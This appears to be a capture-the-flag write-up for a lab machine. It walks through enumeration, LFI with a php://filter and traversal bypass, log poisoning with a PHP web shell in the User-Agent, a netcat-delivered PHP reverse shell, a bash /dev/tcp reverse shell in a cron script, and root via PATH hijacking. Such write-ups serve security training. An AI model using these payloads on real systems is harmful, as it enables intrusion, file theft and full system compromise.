Boot2root, Web exploitation, Privilege escalation, LFI


# Task 1

A well known security solutions company seems to be doing some testing on their live machine. Best time to exploit it.

Start machine and connect to VPN
# Task 2

Enumerate the machine

Nmap scan:


```shell
nmap -sCV -A -p- -T4 --min-rate=1000 IP -oN scan
```

Website running on port 80:



## Question 1: Find a different hostname


Hostname found `mafialive.thm`

## Question 2: Find flag 1

Insert Hostname and IP into `/etc/hosts` file



Navigate to the site using the hostname:



First flag found ✅

## Question 3: Look for a page under development

Directory Brute force using dirsearch:





Navigate to `/test.php`:


## Question 4: Find flag 2



Clicking the button seems to display the contents of the file `mrrobot.php` which is stored on the system. This should indicate possible LFI (local file inclusion) vulnerability.


Attempting to view contents of `/etc/passwd` isn't working with this payload, this indicates that there is a possible filter preventing us from viewing any other file apart from `mrrobot.php`:


Since the site is running on PHP we can look for LFI PHP filter payloads to use. You can find some good payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

Navigating to the site we can look for PHP filters:


After testing various payloads, this was the one that worked for me:



```
php://filter/convert.base64-encode/resource=
```

Inserting the filter works and gives out a base64 output of the contents of `mrrobot.php`



Full URL:

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

What this payload is doing basically is taking whatever we supply as the input and then encodes it in base64 which enables us to bypass the filter. This base64 code can then easily decoded back to plaintext:



We can now try to read the page (test.php) source code to try and understand what filter is in place and how to bypass it:




Decode it:


We now have the page source code. 

NOTE: If you are using your terminal to decode the base64 code like me, then remember to remove the space after the first quote and before the last quote to prevent an error.

Now to analyze the code, we can redirect the output inside of a file rather than to the terminal to get a clearer view:




Second flag obtained ✅

What the filter is basically doing is that if it detects no presence of `../..` and the string `/var/www/html/development_testing` then it gives an output, or else it prints out `Sorry, Thats not allowed` .

So basically instead of using `../..` for directory traversal, we can use something like `..//..`  to bypass this filter and also we should always include `/var/www/html/development_testing` in our payload. With that knowledge, a payload like:

```
/var/www/html/development_testing/..//..//..//..//..//etc/passwd
```

should allow us to view the contents of `/etc/passwd`. Let's try it:


And it works. For a better formatting, we can view the page source:



## Question 5: Get a shell and find the user flag

Now to try and gain a shell with LFI.

A common method of gaining RCE using LFI is via Log poisoning.

First up, since this server runs on apache, we can view the apache log file located at `/var/log/apache2/access.log`. This will probably cause the page to load very slow because a log file tends to have lots of output since it logs literally everything you do on the site since you started the machine. So to prevent this you can just reset the machine and everything will load faster and this is what i am going to do. Remember to insert the new IP address in your `/etc/hosts` file after resetting




We can now view the log file easier.

We can try to perform an attack called Log Injection. Applications typically use log files to store a history of events or transactions for later review, statistics gathering, or debugging. Depending on the nature of the application, the task of reviewing log files may be performed manually on an as-needed basis or automated with a tool that automatically culls logs for important events or trending information.

Writing invalidated user input to log files can allow an attacker to forge log entries or inject malicious content into the logs. This is called log injection. 
Log injection vulnerabilities occur when:

1. Data enters an application from an untrusted source.
2. The data is written to an application or system log file.

PHP code can easily be added to a log file, for example:

```
    https://www.somedomain.tld/index.php?file=`
    <?php echo phpinfo(); ?>`
```

This stage it is called **log file poisoning**. If the log file is staged on a public directory and can be accessed via a HTTP GET request, the embedded PHP command may execute in certain circumstances. This is a form of [Command Injection](https://owasp.org/www-community/attacks/Command_Injection) via Log Injection.[source](https://owasp.org/www-community/attacks/Log_Injection) 


In our case we can try to inject arbitrary code into the user-agent field to gain RCE (remote code execution). I will be using burpsuite for this. 

So first up i capture a request using burpsuite and send to repeater:



Now to inject a PHP web shell into the user-agent field:

Payload 

```php
<?php system($_GET['cmd']); ?>
```



now to test it by passing in the parameter 'CMD' with a value of id, you can use your browser or burpsuite for this.





Now that we have RCE we can gain a shell.

First up is to get a php reverse shell script, you can get it from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Change the IP to you VPN IP (tun0) and port to your desired port:



Transfer the script to the target, i will be using netcat for this:



```
nc -lvnp 1234 < shell.php
```

```
nc IP PORT > shell.php
```



File has success fully sent.

Setup a netcat listener to catch the reverse shell:



Execute the script:



And we have a shell:



Stabilize shell:



```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z (background shell)
stty raw -echo;fg
Press ENTER twice
```


3rd flag obtained:



# Task 3

## Question 6: Get User 2 flag

The second user flag is probably in the `secret` directory that we don't have permission to access, so we have to find a way to perform a horizontal privilege escalation and become the use `archangel`.

Transfer linpeas to target machine. LinPEAS is a script which will search for all possible paths to escalate privileges on Linux hosts. So we can use this to find unusual files in certain locations and possibly get the second flag.


Run the linpeas script with `./linpeas.sh`.

Looking through the linpeas result, we have a script in the opt directory that belongs to the user archangel and also a directory that probably contains backup files:



It's just a simple script that echoes the text `hello world` into the file `helloworld.txt` which is stored in the `backupfiles` directory.



Lucky for us we have Read Write and Execute permissions to this script and the script runs as the user archangel, so we can insert a reverse shell payload into the script and setup a netcat listener to catch a shell as the user archangel.



I am making use of this payload:

```
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'
```




Now setup a netcat listener and wait to catch the shell. The script is probably running every 10 seconds.



We have a shell as archangel.



4th flag obtained.

## Question 7: Root the machine and find the root flag

In the `secret` directory, we have an executable named backup that belongs to the root user. 



Trying to run it, we can see this script is trying to cp all the contents of `/home/user/archangel/myfiles`. But there is not `/home/user`, so this will always result to an error, and we don't have permission to create a folder name `user` in the home directory.



Checking the content of the executable we see that it's trying to copy the contents to the backupfiles folder.



Now what we can do to exploit this is to create a file named `cp` inside of a directory, let's say the `/tmp` directory. We insert a reverse shell payload inside of that file. We then modify the system PATH to begin with `/tmp` so that when we run the backup executable, the terminal will try to look for the binary `cp` in the `/tmp` directory first and execute whatever the content of the file is.



Normal PATH:



New PATH:



```
export PATH=/tmp:$PATH
```

Make it an executable:



Netcat listener:




Execute it, and we have root:



Final root flag acquired ✅



The End. 🤝

![[attachments/b1810d0bf4fbd370349d671a3f9389af.gif]]